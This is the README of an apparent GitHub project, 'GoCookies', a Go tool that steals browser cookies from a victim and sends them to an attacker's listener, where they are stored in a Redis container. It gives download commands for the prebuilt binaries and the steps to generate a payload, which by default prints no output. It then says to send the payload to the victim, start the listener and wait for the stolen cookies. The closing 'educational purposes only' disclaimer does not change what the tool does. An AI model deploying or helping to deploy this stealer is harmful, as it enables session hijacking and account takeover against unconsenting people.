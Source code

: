 

# GoCookies - A Browser Cookie Stealer Written in Go

GoCookies is a tool for stealing cookies from a victim's browser and sending them to an attacker's machine. It is written in Go and has three components: `gocookies`, `gocookies-generate`, and `gocookies-listener`.

The `gocookies-generate` component generates a payload that can be sent to the victim. This payload steals the cookies from the victim's browser and sends them to the `gocookies-listener` component running on the attacker's machine. The `gocookies-listener` component receives the cookies and stores them in a Redis database running in a Docker container.

## Prerequisites

Before using GoCookies, you will need to have the following installed:

- Docker
- Go
- Git

## Getting Started

To get started with GoCookies, follow these steps:

1. Clone the repository:

```
git clone https://github.com/simonfalke-01/gocookies.git
```

2. Download the latest release:

For Linux:
```
curl https://github.com/simonfalke-01/gocookies/releases/latest/download/generate-linux -o generate && curl https://github.com/simonfalke-01/gocookies/releases/latest/download/listener-linux -o listener && chmod +x generate listener
```

For macOS:
```
curl https://github.com/simonfalke-01/gocookies/releases/latest/download/generate-macos -o generate && curl https://github.com/simonfalke-01/gocookies/releases/latest/download/listener-macos -o listener && chmod +x generate listener
```

Alternatively, you can download the binaries manually from the [releases](https://github.com/simonfalke-01/gocookies/releases/latest/) page.

## Generating a Payload

To generate a payload, use the `gocookies-generate` component. This component requires the following arguments:

- `-h` - The host of the listener.
- `-p` - The port of the listener.
- `-d` - The path of the `gocookies` directory.
- `-v` (optional) - Whether to print verbose output (by default, the payload does not print any output).

Example:

```
./generate -h localhost -p 8091 -d ~/gocookies/gocookies
```

Here, `~/gocookies` is the cloned repository.

Once the payload is generated, you can send it to the victim.

## Setting up the Listener

To set up the listener, use the `gocookies-listener` component. This component requires the following arguments:

- `-r` - The port on which Redis will be running.
- `-p` - The port on which the listener will be running.
- `-e` (optional) - Whether to use an existing Redis container (if not specified, a new Redis container will be created). If specified, `-r` will be the port of the existing Redis container.

Example:

```
./listener -r 8090 -p 8091
```

Once the listener is set up, you can wait for the victim to connect to it and send the cookies.

## Building from Source

To build `gocookies-generate` from source, navigate to the `gocookies-generate` directory and run:

```
go build
```

To build `gocookies-listener` from source, navigate to the `gocookies-listener` directory and run:

```
go build
```

## Disclaimer

This tool is for educational purposes only. Using this tool without the consent of the victim is illegal and unethical. The author of this tool is not responsible for any illegal or unethical use of this tool.